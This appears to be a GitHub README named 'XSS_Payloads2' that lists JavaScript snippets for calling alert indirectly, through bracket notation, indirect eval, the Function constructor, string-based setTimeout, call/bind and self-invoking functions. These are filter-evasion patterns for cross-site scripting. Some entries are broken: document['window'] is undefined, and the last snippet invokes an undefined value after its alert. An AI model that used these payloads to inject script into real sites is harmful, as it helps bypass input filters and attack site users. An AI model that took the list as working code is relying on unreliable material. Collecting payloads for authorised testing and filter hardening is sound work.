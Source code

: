 # XSS_Payloads2

XSS payloads

## Array Notation  
```js
window['alert']('Hello');
```


## Chained Array Notation  
```js
this['window']['alert']('Hello');
```


## Indirect Reference Using Call/Apply  
```js
(0, eval)('alert("Hello")');
```


## Calling via Function Constructor  
```js
(new Function('alert("Hello")'))();
```


## SetTimeout or SetInterval  
```js
setTimeout('alert("Hello")', 0);
```


## Indirect Reference with call  
```js
window.alert.call(this, 'Hello');
```


## Using bind  
```js
const alertBind = alert.bind(window);
alertBind('Hello');
```


## anon functions  
```js
(() => alert('Hello'))();
```


## Self-Invoking Function with alert  
```js
(function(){ alert('Hello'); })();
```


## Function call  
```js
Function.prototype.call.call(alert, window, 'Hello');
```


## Global this  
```js
(this || window).alert('Hello');
```


## chaining doc and window  
```js
document['window']['alert']('Hello');
```


## Reclusive indirect function calling  
```js
(((f) => f(f))((f) => alert('Hello')))();
```

